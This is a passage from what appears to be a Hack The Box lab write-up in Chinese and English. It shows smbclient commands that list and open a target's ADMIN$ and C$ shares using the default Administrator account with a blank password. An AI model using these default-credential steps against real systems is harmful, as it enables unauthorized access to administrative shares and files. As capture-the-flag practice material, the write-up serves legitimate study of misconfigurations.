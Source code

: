 基本上一定要 try try 的預設帳號就是 Administrator，因為題目是模擬 misconfiguration，所以沒有設定密碼，輸入密碼時直接按 enter 繼續

### list

```bash
smbclient -U Administrator -L 10.129.77.79
```

```bash
smbclient -U Administrator -L 10.129.77.79
Enter WORKGROUP\Administrator's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

### connect to shared folder, try to find flag

```bash
smbclient \\\\10.129.77.79\\ADMIN$ -U Administrator
```

```bash
smb: \> help
```

```bash
smb: \> ls
```

![Untitled](HTB%20writeu%20673ee/Untitled%2062.png)

too much thins, hum...

try to access C$ folder

```bash
smbclient \\\\10.129.77.79\\C$ -U Administrator
```
